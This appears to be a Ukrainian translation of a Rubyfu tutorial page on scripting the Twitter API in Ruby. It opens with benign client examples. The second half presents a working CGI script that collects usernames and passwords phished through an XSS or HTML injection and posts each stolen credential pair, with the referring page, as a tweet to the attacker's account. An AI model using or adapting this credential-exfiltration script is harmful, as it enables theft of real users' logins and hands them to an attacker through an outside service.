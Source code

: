 # Twitter API
Вміння працювати з API твіттеру є дійсно корисним для отримання інформації, систематизування її, та задля соціальної взаємодії. Але вам потрібно мати ключі та токени для того, щоб отримати мождивість працювати з API твіттеру. Щоб зробити це, зверніться до офіційної документаціх на [сторінці розробника Twitter][1].

- Щоб встановити Twitter API виконайте:
```
gem install twitter
```

## Використання
**rubyfu-tweet.rb**
```ruby
#!/usr/bin/env ruby
# KING SABRI | @KINGSABRI
#
require 'twitter'
require 'pp'

client = Twitter::REST::Client.new do |config|
        config.consumer_key        = "YOUR_CONSUMER_KEY"
        config.consumer_secret     = "YOUR_CONSUMER_SECRET"
        config.access_token        = "YOUR_ACCESS_TOKEN"
        config.access_token_secret = "YOUR_ACCESS_SECRET"
end

puts client.user("Rubyfu")                   # Fetch a user
puts client.update("@Rubyfu w00t! #Rubyfu")  # Tweet (as the authenticated user)
puts client.follow("Rubyfu")                 # Follow User (as the authenticated user)
puts client.followers("Rubyfu")              # Fetch followers of a user
puts client.followers                        # Fetch followers of current user 
puts client.status(649235138585366528)       # Fetch a particular Tweet by ID
puts client.create_direct_message("Rubyfu", "Hi, I'm KINGSABRI")    # Send direct message to a particular user
```
![](webfu__twitterAPI1.png)


**Ваш хід**, надішліть твіт до @Rubyfu використовуючи вищенаведений приклад. відправте ваш код та результат роботи до **@Rubyfu**.

## Побудова бота, що повідомляє про вкрадені паролі

Уявимо, що ии використовуємо якусь XSS/HTML ін'єкцію для того. щоб змусити користувачів вводити логін та пароль. Ідея в тому, щоб зробити[CGI скрипт][2] який отримує вкрадені паролі й відправляє нам твіт повідомлення про це.

```ruby
#!/usr/bin/ruby -w                                                                 

require 'cgi'
require 'uri'
require 'twitter'

cgi  = CGI.new
puts cgi.header

user = CGI.escape cgi['user']
pass = CGI.escape cgi['pass']
time = Time.now.strftime("%D %T")

client = Twitter::REST::Client.new do |config|
        config.consumer_key        = "YOUR_CONSUMER_KEY"
        config.consumer_secret     = "YOUR_CONSUMER_SECRET"
        config.access_token        = "YOUR_ACCESS_TOKEN"
        config.access_token_secret = "YOUR_ACCESS_SECRET"
end
client.user("KINGSABRI")

if cgi.referer.nil? or cgi.referer.empty?
    # Twitter notification | WARNING! It's tweets, make sure your account is protected!!!
    client.update("[Info] No Referer!\n" + "#{CGI.unescape user}:#{CGI.unescape pass}")
else
    client.update("[Info] #{cgi.referer}\n #{CGI.unescape user}:#{CGI.unescape pass}")
end

puts ""
```






[1]: https://dev.twitter.com/oauth/overview
[2]: http://rubyfu.net/content/module_0x4__web_kung_fu/index.html#cgi
